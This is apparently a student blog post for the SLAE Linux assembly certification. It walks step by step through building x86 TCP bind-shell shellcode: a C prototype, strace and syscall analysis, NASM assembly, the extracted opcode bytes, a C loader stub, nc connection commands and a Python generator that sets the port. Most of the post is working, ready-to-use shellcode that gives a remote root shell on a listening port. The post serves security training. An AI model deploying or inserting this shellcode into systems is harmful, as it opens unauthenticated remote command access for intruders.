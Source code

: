 * Assignment 1

This blog post has been created for completing the requirements fo the SecurityTube
Linux Assembly Expert certification:
[[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert][http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert]]

Student ID: SLAE-824

** Requirements

- Create a Shell Bind TCP shellcode
  - Bind to a port
  - Execs Shell on incoming connection
- Port number should be easily configurable

** Strategy

My approach to building a tcp bind shell shellcode will be to:

- Create a C program which illustrates the basic functionality
- Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
- Lookup the system calls and see what arguments and structures they take
- Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
- Debug issues as of course there will be :)

** The C program

From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

- Socket: Open a socket over which we will communicate. Essentially a file descriptor
- Bind: Bind our socket to an interface on our system
- Listen: Tell our system that we are ready to start accepting connections
- Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

- Send
- Recv
- Connect
- Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

The final step after we get our redirection going is we just need to
run a program, in our case ~/bin/sh~ and its output and input should
be connected to our socket. We can run this program using ~execve~.

So lets get some code going!

#+NAME: bindshell.c
#+BEGIN_SRC c
  #include <stdio.h>
  #include <netinet/in.h>
  #define PORT 4444

  int main(int argc, char **argv) {
    // Create a socket
    int lsock = socket(AF_INET, SOCK_STREAM, 0);

    // Setup servr side config struct
    // We configure:
    // The family:IPv4
    // The interface: 0.0.0.0 (any)
    // The port: port#
    struct sockaddr_in config;
    config.sin_family = AF_INET;
    config.sin_addr.s_addr = INADDR_ANY;
    // The htons() function converts the
    // unsigned short integer hostshort from host byte
    // order to network byte order.
    config.sin_port = htons(PORT);

    // Bind the created socket with the interface
    // specified in the configuration
    bind(lsock, (struct sockaddr *)&config, sizeof(config));

    // Listen on the socket
    listen(lsock, 0);

    // Accept the incoming connection
    int csock = accept(lsock, NULL, NULL);

    // Redirect stdin, stdout, and stderror
    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    // Execute a shell
    execve("/bin/sh", NULL, NULL);
};
#+END_SRC

Compiling this code with ~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with ~./bindshell~ and then
looking at our network using ~netstat -antp~ yields something very
interesting...

#+Name: netstat-output
#+BEGIN_SRC sh
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
#+END_SRC

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running ~nc
-nv -nv 127.0.0.1 4444~ we will get:

#+Name: netcat-output
#+BEGIN_SRC sh
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly...

** Analysis of the C program

We can use a tool called ~strace~ to help us learn more about what system calls
our bind shell c program is making. Running ~strace ./bindshell~, connecting
to the bindshell with ~nc -nv 127.0.0.1 4444~ and filtering out the noise
we will see:

#+Name: strace-bindshell
#+BEGIN_SRC sh
root@blahblah:~/shared/SLAE/slae/exercise1# strace ./bindshell
execve("./bindshell", ["./bindshell"], [/* 41 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("0.0.0.0")}, 16) = 0
listen(3, 0)                            = 0
accept(3,
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin/sh", [0], [/* 0 vars */])  = 0
#+END_SRC

Ok. It looks like our code makes some system calls that seem to align with the
functions we know to be part of our socket programming formula along with the
stdin, stdout, and stderror redirection and our ~execve~ call to run /bin/sh.

Lets lookup the system calls to find out their system call numbers. We will
consult ~/usr/include/i386-linux-gnu/asm/unistd_32.h~ for these numbers...

When we consult the listing of syscalls we encounter a bit of confusion. The
only system calls that seem to closely match up with what we saw in our strace
are:

#+Name: syscall-numbers
#+BEGIN_SRC c
#define __NR_execve 11
#define __NR_dup2 63
#define __NR_socketcall 102
#define __NR_mbind 274
#+END_SRC

This is strange. ~execve~ and ~dup2~ look good but there doesn't seem to be
any syscall numbers for socket,listen, or accept. socketcall seems a bit odd
as does mbind so we will have to look into this.

Consulting ~man socketcall~ we learn:

#+Name: man-socketcall
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);

/**
socketcall() is a common kernel entry point for the socket system
calls.  call determines which socket function to invoke.  args points
to a block containing the actual arguments, which are passed through
to the appropriate call.

User programs should call the appropriate functions by their usual
names.  Only standard library implementors and kernel hackers need to
know about socketcall().
**/

#+END_SRC

So that seems to explain things a little bit. The first argument to
socketcall is a number that represents the actual socket api function
that we want to be calling. Ok... Where do we get the number associated
with each of the api calls?

A little Google search for socketcall call numbers brings us:

[[http://jkukunas.blogspot.com/2010/05/x86-linux-networking-system-calls.html][socketcall call numbers]]

In this blog post we confirm our knowledge about the first argument of
socketcall as well as learn about ~/usr/include/linux/net.h~

Lets checkout that file and see if we can learn the numbers we are looking
for.

#+Name: net.h
#+BEGIN_SRC c
#define SYS_SOCKET	1		/* sys_socket(2)		*/
#define SYS_BIND	  2		/* sys_bind(2)			*/
#define SYS_LISTEN	4		/* sys_listen(2)		*/
#define SYS_ACCEPT	5		/* sys_accept(2)		*/
// ... snip
#+END_SRC

So it looks like the ~mbind~ syscall we saw earlier might not be
necessary as it looks like there is a ~bind~ syscall number that we
can call with ~socketcall~.  We'll try that out and see how that goes.

Now that we know the syscalls and their corresponding numbers, we need
to figure out their function signatures so that we know what sort of
arguments we need to be passing to them when we invoke them. The
metnod signatures look like the following:


#+Name: signatures
#+BEGIN_SRC c
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int listen(int sockfd, int backlog);
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
int dup2(int oldfd, int newfd);
int execve(const char *filename, char *const argv[], char *const envp[]);
// ... snip
#+END_SRC

We also leveraged 2 structs in our C program which we will most likely need
to replicate.

#+Name: netinet/in.h
#+BEGIN_SRC c
#include <netinet/in.h>

// All pointers to socket address structures are often cast to pointers
// to this type before use in various functions and system calls:

struct sockaddr {
    unsigned short    sa_family;    // address family, AF_xxx
    char              sa_data[14];  // 14 bytes of protocol address
};


// IPv4 AF_INET sockets:

struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};

#+END_SRC


Ok... Using what we have gathered from our analysis lets take an attempt at
writing some assembly!

** Assembly: Take 1

Lets lookup some values of constants:

#+BEGIN_SRC sh
~/usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h~
#+END_SRC

#+Name: /usr/src/linux-headers-4.0.0-kali1-common/include/linux/socket.h
#+BEGIN_SRC c
#define AF_INET		2	/* Internet IP Protocol 	*/
#+END_SRC

I had a hard time finding where ~SOCK_STREAM~ was defined so we use
a little gcc magic to see what the macro expands to:

#+Name: gcc-macro-expansion
#+BEGIN_SRC sh

root@blahblah:~/shared/SLAE/slae/exercise1# gcc -DN -E bindshell.c | grep SOCK_STREAM
SOCK_STREAM = 1,
int lsock = socket(2, SOCK_STREAM, 0);

#+END_SRC

#+Name: /usr/include/netinet/in.h
#+BEGIN_SRC c
#define INADDR_ANY ((unsigned long int) 0x00000000)
#+END_SRC

#+Name: bindshellasm.asm
#+BEGIN_SRC asm
global _start
;; Note: We will store 2 file descriptors along the way
;; We will put the listening socket file descriptor in edi
;; We will put the connection socket file descriptor in ebx

section .text
  _start:
    ;; Create a socket
    ;; int socketcall(int call, unsigned long *args);
    ;; int socket(int domain, int type, int protocol);
    ;; #define SYS_SOCKET	1		/* sys_socket(2)		*/
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x1 ; sys_socket syscall number

    ;; Put the socket() args on the stack
    xor ecx, ecx
    push ecx ; INADDR_ANY Accept on any interface 0x00000000
    push ebx ; SOCK_STREAM is the type of socket 1
    push 0x2 ; Protocol AF_INET is the IP Protocol 2

    mov ecx, esp ; Save pointer to args for the socket() call
    int 0x80 ; call sys_socket

    ; Save the returned listening socket file descriptor
    xor edi, edi
    mov edi, eax

    ;; Bind the socket
    ;; Use socketcall to call down to socket
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x2 ; sys_bind syscall number

    ;; Start building the sockaddr_in structure
    ;; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    ; sin_addr=0 (INADDR_ANY)
    ; INADDR_ANY Accept on any interface 0x00000000
    xor ecx, ecx
    push ecx

    ;; 4444 is 0x115c in little endian. Network byte order is
    ;; Big endian so we swap the byte ordering
    push word 0x5c11 ; sin_port=4444 (network byte order)
    push word bx     ; sin_family=AF_INET (0x2)
    mov ecx, esp     ; move pointer to sockaddr_in structure

    ;; In the initial code we use sizeof to derive the addrlen
    ;; If we print the results of that we get 0x10 which is 16 bytes
    push 0x10 ;addrlen=16
    push ecx  ;struct sockaddr pointer
    push edi  ;sockfd
    mov ecx, esp ;save pointer to bind() args
    int 0x80 ; call sys_bind

    ;; Call listen and prepare for accepting connections
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x4 ; sys_listen syscall number

    ;; Place listen's arguments on the stack
    xor ecx, ecx
    push ecx ; backlog we set to zero
    push edi ; push the socket file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_listen

    ;; Call accept
    xor eax, eax
    mov al, 0x66 ; socketcall syscall
    xor ebx, ebx
    mov bl, 0x5 ; sys_accept syscall number
    ;; Place accept's arguments on the stack
    ;; We don't need a peer socket???... so we
    ;; use nulls for addrlen and sockaddr struct
    xor ecx, ecx
    push ecx ; Push NULL (0x00000000) for addrlen
    push ecx ; Push NULL (0x00000000) for sockaddr struct
    push edi ; Push the listening sockets file descriptor
    mov ecx, esp ; place a pointer to the args in ecx
    int 0x80 ; call sys_accept

    ;; Save the returned connection socket file descriptor
    xor ebx, ebx
    mov ebx, eax

    ;; Call dup2 for stdin, stdout, and stderr in a loop
    xor ecx, ecx
    mov cl, 0x2 ;loop counter
  dup2:
    mov al, 0x3f ;dup2
    int 0x80
    dec ecx
    jns dup2

    ;; Call execve
    xor eax, eax
    mov al, 0xb ;execve
    xor ebx, ebx
    push ebx
    push 0x68732f2f ;"sh//"
    push 0x6e69622f ;"nib/"
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
#+END_SRC

When we compile the above shellcode using the compile.sh script below:

#+Name: compile assembly script
#+BEGIN_SRC sh
#!/bin/bash
echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
#+END_SRC

~root@blahblah:~/shared/SLAE/slae/exercise1# ./compile.sh bindshellasm~

And run the shellcode using:

~root@blahblah:~/shared/SLAE/slae/exercise1# ./bindshellasm~

And connect using netcat:

#+Name: compile assembly script
#+BEGIN_SRC sh

#!/bin/bash
root@blahblah:~/shared/SLAE/slae/exercise1# nc -nv 127.0.0.1 4444
(UNKNOWN) [127.0.0.1] 4444 (?) open
id
uid=0(root) gid=0(root) groups=0(root)

#+END_SRC

Bingo! Our assembly works and gives us a tcp bind shell. Now we need to test it
in our c program stub. We will use some command line fu to get the opcodes
from our binary:

#+Name: compile assembly script
#+BEGIN_SRC sh
root@funos:~/shared/SLAE/slae/exercise1# objdump -d ./bindshellasm|grep '[0-9a-f]:'| \
grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '\
|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80"

#+END_SRC

We add our opcodes to a stub tester C program:

#+Name: shellcode.c
#+BEGIN_SRC C

#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}

#+END_SRC

Compile with: ~gcc shellcode.c -o shellcode~
Run with: ~./shellcode~
Connect with: ~nc -nv 127.0.0.1 4444~


And it works! We get our shell. The shellcode is 122 bytes without
really trying to optimize. We can always go back and try to
optimize. We also need to update the program to make the port number
easily configurable.

Let's write a wrapper script to set our port. We just accept the port
as a command line argument to our script and interpolate it into our
shellcode and print out the result:

#+Name: tcp-bind-shell.py
#+BEGIN_SRC python
#!/usr/bin/python

#!/usr/bin/python

import sys

if len(sys.argv) != 2:
	print "Fail!"

port_number     = int(sys.argv[1])
bts             = [port_number >> i & 0xff for i in (24,16,8,0)]
filtered        = [b for b in bts if b > 0]
formatted       = ["\\x" + format(b, 'x') for b in filtered]
joined          = "".join(formatted)

shellcode ="\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x01\\x31\\xc9\\x51\\x53\\x6a\\x02\\x89\\xe1"
shellcode+="\\xcd\\x80\\x31\\xff\\x89\\xc7\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x02\\x31\\xc9"
shellcode+="\\x51\\x66\\x68" + joined + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57"
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x04\\x31\\xc9\\x51\\x57"
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x05\\x31\\xc9\\x51\\x51"
shellcode+="\\x57\\x89\\xe1\\xcd\\x80\\x31\\xdb\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd"
shellcode+="\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f\\x2f\\x73\\x68"
shellcode+="\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xcd\\x80"

print(shellcode)


#+END_SRC

Once we have our script we print out our updated shellcode and pop it back
into our shellcode.c stub program, compile and test a connection. When we do,
we get our shell again. And even better, we can change the port to whatever we
would like to yield the proper shellcode.
